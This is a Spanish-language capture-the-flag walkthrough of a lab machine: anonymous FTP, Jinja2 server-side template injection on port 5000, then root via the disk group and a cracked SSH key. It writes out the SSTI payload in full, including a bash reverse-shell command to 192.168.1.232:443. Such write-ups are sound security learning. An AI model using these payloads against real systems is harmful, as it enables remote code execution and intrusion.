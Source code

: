 Escaneo de puertos:

![](../../../Images/Pasted%20image%2020240816165851.png)

Entremos por el puerto 21 FTP ya que tenemos acceso con el usuario anonymous sin proporcionar contraseña:

![](../../../Images/Pasted%20image%2020240816165949.png)

Tenemos un .txt, lo descargamos en nuestro kali y lo leemos:

![](../../../Images/Pasted%20image%2020240816170050.png)

Bruh :V una broma

Veamos el puerto 5000:

![](../../../Images/Pasted%20image%2020240816170212.png)

Tenemos la imagen de una máquina extractora de petróleo

Veamos su código fuente:

![](../../../Images/Pasted%20image%2020240816170249.png)

Tenemos una pista de un posible directorio, accedamos a el:

![](../../../Images/Pasted%20image%2020240816170350.png)

Tenemos un espacio como para escribir algo y ver lo que nos devuelve la página

Probemos con un comando como whoami para ver que sucede:

![](../../../Images/Pasted%20image%2020240816170435.png)

Efectivamente nos devuelve lo q escribimos

Probemos a ver si es vulnerable a una STTI (Server Side Template Injection):

![](../../../Images/Pasted%20image%2020240816170554.png)

![](../../../Images/Pasted%20image%2020240816170601.png)

Y si, efectivamente es vulnerable

Accederemos a la siguiente pagina y nos copiaremos este comando:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#jinja2---basic-injection

![](../../../Images/Pasted%20image%2020240814211729.png)

Lo pegamos con el comando whoami:
```
Hola{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('whoami').read() }}
```

![](../../../Images/Pasted%20image%2020240816170744.png)

Detrás de la página está el usuario tcuser

Entonces ahora meteremos un comando de reverse shell y nos pondremos a la escucha con Netcat:
```
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/192.168.1.232/443 0>&1"').read() }}
```

![](../../../Images/Pasted%20image%2020240816170840.png)

![](../../../Images/Pasted%20image%2020240816170856.png)

Y listo, estamos dentro de la máquina

Tratamiento de la TTY:

![](../../../Images/Pasted%20image%2020240816170932.png)

![](../../../Images/Pasted%20image%2020240816170952.png)

## ESCALADA DE PRIVILEGIOS

Veamos a los grupos a los que pertenecemos con el comando id

![](../../../Images/Pasted%20image%2020240816171753.png)

Nos llama la atención el grupo Disk

Investiguemos un poco. En la página Hacktricks encontré esta información:
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe

![](../../../Images/Pasted%20image%2020240816172037.png)

La cual nos dice que este grupo es ser casi como un usuario root

Ejecutemos esos comandos:

![](../../../Images/Pasted%20image%2020240816172251.png)

Tenemos el id_rsa de root

Me lo paso a mi kali le extraemos la hash con Ssh2john y la crackeamos con John:

![](../../../Images/Pasted%20image%2020240816172606.png)

Y la contraseña para acceder con este id_rsa es angels1

Intrusión por el puerto 22 SSH con usuario root y con la id_rsa:

![](../../../Images/Pasted%20image%2020240816172718.png)

Y listo, ya somos ROOT

Flag de user:

![](../../../Images/Pasted%20image%2020240816172753.png)

Flag de root:

![](../../../Images/Pasted%20image%2020240816172805.png)

